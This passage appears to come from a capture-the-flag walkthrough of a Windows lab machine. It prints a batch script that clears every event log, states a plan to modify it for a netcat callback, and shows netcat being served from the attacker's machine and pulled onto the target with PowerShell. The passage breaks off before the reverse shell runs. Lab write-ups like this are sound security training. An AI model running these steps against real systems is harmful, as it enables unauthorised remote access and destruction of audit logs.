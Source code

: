 `job.bat`, what is that?

```console
daniel@MARKUP C:\Log-Management>type job.bat
@echo off 
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

It's a script used for clearing log files. If we edit it, we will be able to make the target call us via netcat.

We need to upload `nc64.exe` to the target.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
--2022-04-18 18:42:14--  https://github.com/int0x33/nc.exe/blob/master/nc64.exe
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘nc64.exe’

nc64.exe                   [   <=>                   ] 123.77K   585KB/s    in 0.2s    

2022-04-18 18:42:15 (585 KB/s) - ‘nc64.exe’ saved [126741]

┌──(kali㉿kali)-[~/Downloads]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Back on the host, we need to open `powershell` and get the file.

```console
daniel@MARKUP C:\Log-Management>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.


PS C:\Log-Management> wget http://10.10.14.15:8000/nc64.exe -outfile nc64.exe
PS C:\Log-Management> dir

    Directory: C:\Log-Management

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/6/2020   1:42 AM            346 job.bat
-a----        4/18/2022   3:48 PM         126741 nc64.exe

PS C:\Log-Management> exit
```
